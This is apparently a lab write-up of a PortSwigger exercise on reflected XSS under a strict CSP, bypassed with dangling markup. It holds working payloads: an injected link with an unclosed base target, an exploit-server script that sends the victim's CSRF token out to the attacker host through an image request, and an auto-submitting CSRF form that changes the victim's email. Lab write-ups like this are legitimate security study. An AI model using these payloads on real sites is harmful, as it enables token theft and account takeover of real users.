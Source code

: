 # Reflected XSS protected by very strict CSP, with dangling markup attack | Jan 2, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-very-strict-csp-with-dangling-markup-attack), you'll learn: Reflected XSS protected by very strict CSP, with dangling markup attack! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★★★★☆☆☆

## Background

This lab using a strict [CSP](https://portswigger.net/web-security/cross-site-scripting/content-security-policy) that blocks outgoing requests to external web sites.

To solve the lab, first perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that bypasses the CSP and exfiltrates a simulated victim user's [CSRF token](https://portswigger.net/web-security/csrf/tokens) using Burp Collaborator. You then need to change the simulated user's email address to `hacker@evil-user.net`.

You must label your vector with the word "Click" in order to induce the simulated user to click it. For example:

```html
<a href="">Click me</a>
```

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102000152.png)

Login as user `wiener`:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102000208.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102000217.png)

In here, we can update our email.

Let's try to update it:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102000239.png)

Burp Suite HTTP history:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102000302.png)

When we clicked the `Update email` button, it'll send a POST request to `/my-account/change-email` with parameter `email` and `csrf`.

**We also see CSP (Content Security Policy) is enabled:**
```
Content-Security-Policy: default-src 'self';object-src 'none'; style-src 'self'; script-src 'self'; img-src 'self'; base-uri 'none';
```

However, we can see `object-src` `base-uri` is set to `none`.

**Now, we can try to provide a GET parameter `email` in the URL:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102004121.png)

As you can see, our input is reflected to the `<input>` tag's value.

**In here, we can try to inject some JavaScript code via dangling markup injection:**
```html
my-account?email="><img src=errorpls onerror=alert(document.domain) x="
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102004833.png)

However, the CSP blocked the `alert()` JavaScript function, as the `script-src` is set to `self`.

**Now, since CSP's `base-uri` is set to `none`, we can leverage the `<base>` tag to exfiltrate the CSRF token.**

**According to [HackTricks](https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection#bypassing-csp-with-user-interaction), we can do that:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102005823.png)

Let's use the exploit server:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102005019.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102005030.png)

**Payload:**
```html
my-account?email="><a href="https://exploit-0a89002e0459822cc1ae162701c40031.exploit-server.net/exploit">Click me to update email</a><base target='
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102005534.png)

When we click the link, **it'll redirect to our exploit server's exploit payload, with the CSRF token.**

**Let's go to the exploit server do exfiltration:**
```html
<html>
    <head>
        <title>XSS-29</title>
    </head>
    <body>
        <script>
            if(window.name) {
                new Image().src='//exploit-0a89002e0459822cc1ae162701c40031.exploit-server.net/log?'+encodeURIComponent(window.name);
            } else {
                window.location.replace('https://0a81003404868282c10c179800fd00e3.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://exploit-0a89002e0459822cc1ae162701c40031.exploit-server.net/exploit%22%3EClick%20me%20to%20update%20email%3C/a%3E%3Cbase%20target=%27');
            }
        </script>
    </body>
</html>
```

**To test it, we can click "Store" and "View exploit":**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102010757.png)

**When we clicked "View exploit", the exploit HTML code will redirect us to our XSS payload:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102010839.png)

**Then, if the we click on our payload, it'll send the CSRF token to exploit server's access log:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102010936.png)

**URL decoded:**
```html
">
                            <input required type="hidden" name="csrf" value="JqFRqnLcMIG8Qvt6KFvHjqJYV2uBj48t">
                            <button class=
```

**Now, let's click "Deliver exploit to victim" to capture his/her CSRF token:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102011049.png)

**Access log:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102011108.png)

**URL decoded:**
```html
">
                            <input required type="hidden" name="csrf" value="iT656UfZGanewC5gcF46iKOlOzZXorx2">
                            <button class=
```

Nice! **Victim's CSRF token: `iT656UfZGanewC5gcF46iKOlOzZXorx2`**

Armed with above information, **we can perform CSRF attack, which changes victim's email to our controlled email address.**

**Final CSRF attack payload:**
```html
<html>
    <head>
        <title>XSS-29</title>
    </head>
    <body>
        <!-- Construct a form that performs CSRF attack, which changes victim's email address to hacker@evil-user.net-->
        <form name="csrfform" method="post" action="https://0a81003404868282c10c179800fd00e3.web-security-academy.net/my-account/change-email">
            <input type="hidden" id="csrf" name="csrf" value="" />
            <input type="hidden" name="email" value="hacker@evil-user.net" />
        </form>

        <script>
            // If the window.name object exist, then: (This is included in the <base> element in our XSS payload.)
            if(window.name) {
                // Extract victim's CSRF token in window's object name, at string length 80 - 112
                var CSRFToken = window.name.slice(80,112);

                // Update our CSRF form's CSRF value to the victim ones
                document.getElementById('csrf').value = CSRFToken;

                // Automatically submit the form
                document.forms['csrfform'].submit();
            // If no window.name object, then:
            } else {
                // Redirect to our XSS via dangling markup injection payload
                window.location.replace('https://0a81003404868282c10c179800fd00e3.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://exploit-0a89002e0459822cc1ae162701c40031.exploit-server.net/exploit%22%3EClick%20me%20to%20update%20email%3C/a%3E%3Cbase%20target=%27');
            }
        </script>
    </body>
</html>
```

**Finally, we can deliver the exploit to victim:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102014735.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-29/images/Pasted%20image%2020230102014747.png)

We did it!

# What we've learned:

1. Reflected XSS protected by very strict CSP, with dangling markup attack